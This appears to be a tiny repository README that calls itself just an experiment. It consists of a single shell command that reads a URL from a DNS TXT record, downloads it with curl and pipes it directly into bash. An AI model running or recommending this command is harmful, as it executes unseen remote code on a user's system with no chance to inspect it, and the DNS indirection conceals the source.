 Just an experiment. Nothing to really see here...

```curl $(dig +short -ttxt cfengine.wcyd.org|sed -e's/"//g')|bash```
